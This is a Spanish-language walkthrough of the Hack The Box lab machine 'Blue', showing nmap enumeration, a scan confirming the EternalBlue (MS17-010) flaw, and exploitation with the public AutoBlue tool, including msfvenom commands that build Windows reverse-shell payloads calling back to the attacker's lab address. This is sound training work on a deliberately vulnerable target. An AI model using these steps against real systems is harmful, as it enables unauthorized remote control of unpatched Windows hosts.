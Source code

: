 ```yaml
---
title: "Hackthebox Blue Writeup (OSCP Style)"
date: 2020-09-01 10:49:20 +/-0800
categories: [Hackthebox,Windows]
tags: [Eternalblue,MS17-010]
image: /assets/img/Post/Blue.jpg
---
```




﻿Información de la máquina.                                                                                                                                         
                                                                                                                                                                   
| Contenido | Descripción |                                                                                                                                        
|--|--|                                                                                                                                                            
| OS: | ![enter image description here](https://lh4.googleusercontent.com/MHW4d9kHrUo_W-GEyKNmxy4d80uPN5LB0VvwueRlflx-MIKT90EEwXBQZAv7Lg_N9dhTCed17DcmhNF-T_39FcYHrBAx7bHTDD1I7FGeqykdeKs849mRr1y0-aggvaZ7eYUYjPZG) |                                                                                                                                         
| Dificultad: | Facil |                                                                                                                                            
| Puntos: | 20 |                                                                                                                                                   
| Lanzamiento: | 28/Julio/2017 |                                                                                                                                   
| IP: | 10.10.10.40|                                                                                                                                              
| Primera sangre de usuario: | [stefano118](https://www.hackthebox.eu/home/users/profile/3603) |                                                                     
| Primera sangre de system: | [stefano118](https://www.hackthebox.eu/home/users/profile/3603) |     


# Enumeración.

Como siempre comenzaremos con un escaneo a los  `65535`  puertos de la máquina para poder encontrar cuales son los puertos abiertos.

```console
intrusionz3r0@kali:~$ nmap -p- --open -T5 -n -oG nmapScanAllPorts blue.htb -Pn --min-rate 2000
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-01 10:21 CDT
Nmap scan report for blue.htb (10.10.10.40)
Host is up (0.17s latency).
Not shown: 65422 closed ports, 104 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 37.87 seconds
```

Una vez identificado los puertos abiertos, lanzaré scripts de enumeración para detectar los servicios y versiones de los puertos descubiertos.

```console
intrusionz3r0@kali:~$ nmap -sCV -p135,139,445,49152,49153,49154,49155,49156,49157 -oN targeted -Pn blue.htb
Nmap scan report for blue.htb (10.10.10.40)
Host is up (0.17s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -17m12s, deviation: 34m36s, median: 2m46s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-08-31T06:06:49+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-08-31T05:06:47
|_  start_date: 2020-08-31T05:04:14

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 31 00:04:11 2020 -- 1 IP address (1 host up) scanned in 76.69 seconds
```

Esta máquina es probablemente la writeup mas corta que haré, simplemente porque el nombre de la máquina me da una gran pista sobre el tipo de vulnerabilidad que se aborda en esta máquina.

Con solo revisar el escaneo nos damos cuenta de que el sistema operativo es un Windows 7 por lo que es muy probable de que esta máquina sea vulnerable a eternalblue.

Vamos a comprobarlo.

Lanzaré otro escaneo con nmap para comprobar mi teoría.

```console
intrusionz3r0@kali:~$ nmap -p139,445 --script="Vuln and Safe" blue.htb -oN vulnScan -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-01 10:26 CDT
Nmap scan report for blue.htb (10.10.10.40)
Host is up (0.20s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 5.24 seconds
```
Como pueden observar la máquina es vulnerable a eternalblue.

# Explotación de eternalblue.

El repositorio que usaremos para la explotación es el siguiente: [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

Lanzamos el `eternal_checker.py`.

```console
intrusionz3r0@kali:~$ sudo python eternal_checker.py blue.htb                          
[*] Target OS: Windows 7 Professional 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[*] Done
```

Vemos que el la máquina no esta parchada, así que podemos continuar.

Creamos nuestros payloads.
```
intrusionz3r0@kali:~$ sudo ./shell_prep.sh                                                                  
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
10.10.14.28
LPORT you want x64 to listen on:
1234
LPORT you want x86 to listen on:
1235
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
1
Generating x64 cmd shell (stageless)...

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.10.14.28 LPORT=1234
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (stageless)...

msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.10.14.28 LPORT=1235
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE
```
Para finalizar ejecutamos el exploit.

![](https://lh3.googleusercontent.com/EgyeLM90h5ui38na7kU9Gd8h8jJgAZpHqCA-QpxuZbzrG2HLcjbl4kE7MsLx4vaXImw-xWP51a_ajKdmfUc-PplTFc4zyMcA11WG9dtn9OF_d88zn_RlvsEyUDMhKEiN03Xv3Tt7)

**¡¡Somos Administradores!!**

![enter image description here](https://i2.wp.com/media0.giphy.com/media/mQG644PY8O7rG/giphy.gif)

Espero te haya gustado, recuerda seguirme en mis redes sociales para estar al pendiente de todo mi contenido.

#### **¡Muchas Gracias!**
